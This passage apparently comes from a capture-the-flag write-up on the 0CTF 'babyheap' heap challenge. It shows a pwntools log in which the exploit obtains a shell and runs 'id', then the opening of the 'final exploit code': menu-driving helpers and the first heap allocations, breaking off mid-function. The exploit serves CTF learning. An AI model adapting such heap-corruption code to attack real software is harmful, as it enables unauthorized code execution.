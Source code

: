 ``` Python LOG
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0x84 bytes:
    b'uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)\n'
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)

```

## Final exploit code
```Python
import pwn

PREV_INUSE = 0x1
CHUNK_ALIGNMENT = ~(0x10 - 1)


def fill(io, index, size, content: bytes):
    io.sendline("2")
    io.sendline(str(index))
    io.sendline(str(size))
    io.send_raw(content)
    io.recvuntil("Command:", timeout=1)


def free(io, index):
    io.sendline("3")
    io.sendline(str(index))
    io.recvuntil("Command:")


def dump(io, index) -> bytearray:
    io.sendline("4")
    io.sendline(str(index))
    content_bytes = io.recvuntil(b"1.")
    content_bytearray = bytearray(content_bytes)[:-2]
    io.recvuntil("Command:")
    return content_bytearray


def allocate(io, size):
    io.sendline("1")
    io.sendline(str(size))
    io.recvuntil("Command:")


def exit(io):
    io.sendline("5")


def main():
    pwn.context.log_level = 'DEBUG'
    libc = pwn.ELF("libc.so.6")

    io = pwn.process(argv=["./ld-linux-x86-64.so.2", "./0ctfbabyheap_patched", "--preload", "./libc.so.6"])
    io.recvuntil("Command:")

    allocate(io, 0x28)  # 0
    allocate(io, 0x98)  # 1
    allocate(io, 0x98)  # 2
```